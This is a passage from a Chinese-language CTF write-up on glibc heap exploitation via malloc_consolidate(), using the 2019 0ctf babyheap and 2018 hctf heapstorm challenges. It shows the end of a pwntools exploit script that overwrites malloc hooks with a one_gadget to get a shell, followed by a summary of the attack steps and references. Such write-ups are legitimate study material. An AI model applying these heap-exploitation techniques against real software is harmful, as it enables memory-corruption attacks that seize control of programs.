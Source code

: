 ```
add(0x48)
add(0x48)
add(0x58)

#get shell
add(0x50)
edit(15,0x20,'x00'*0x10 + p64(one_gadget) + p64(jump_gadget))

delete(12)
#gdb.attach(p)

#malloc once more to get shell.
p.recvuntil('Command: ')
p.sendline("1")
p.recvuntil('Size: ')
p.sendline("1")

p.sendline('ls')

p.interactive()
```

### <a class="reference-link" name="%E6%94%BB%E5%87%BB%E6%B5%81%E7%A8%8B%E5%B0%8F%E7%BB%93"></a>攻击流程小结

​ 2019-0ctf-babyheap这道题目同样是采用malloc_consolidate()为考点，但是是通过改小top_chunk，使得top_chunk足够小来进行触发。

​ 具体攻击流程如下：填满tcache,放入fastbin；改写top_chunk_size使得其足够小，触发malloc_consolidate()，合并fastbin attack形成unsorted；通过off_by_one改写unsorted bin size,下面再通过触发malloc_consolidate()构造overlapped chunk。然后通过fastbin attack 劫持top_chunk ，覆盖malloc-hook , realloc_hook达成利用。



## 结语

​ 经过上面的分析，我们看到malloc_consolidate()在两道高质量题目中的运用，并且2019-0ctf-babyheap可以说是2018-hctf-heapstorm的升级版本。

​ 一是触发条件升级，通过修改top_chunk size来触发malloc_consolidate()函数，这种方法在2018-hctf-heapstorm中也是适用的。

​ 二是利用姿势升级，在2018-hctf-heapstorm中比较方便的是通过house-of-orange来做，但是通过fastbin atk 劫持 topchunk 也可行，在当时的wp中也有师傅通过这种方式来做，而这道题目因为libc 2.28高版本的check机制，使得house-of-orange不可行，必须通过fastbin atk劫持top chunk，而且以前常用的one_gadget姿势不起作用，在libc 2.28版本下，要重新找一个新的one_gadget姿势来达成利用。

​ 参加高质量的比赛能够学到很多东西，受益匪浅。

​ 同时也感谢F0r_1st师傅在复现过程中对我这个小菜鸡的指点。



## reference

[https://bbs.pediy.com/thread-226037.htm](https://bbs.pediy.com/thread-226037.htm)

[http://matshao.com/2019/03/28/Babayheap-2019/](http://matshao.com/2019/03/28/Babayheap-2019/)

[https://changochen.github.io/2018-11-09-hctf.html](https://changochen.github.io/2018-11-09-hctf.html)

[http://tacxingxing.com/2018/02/20/pwnabletw-secretgarden/](http://tacxingxing.com/2018/02/20/pwnabletw-secretgarden/)

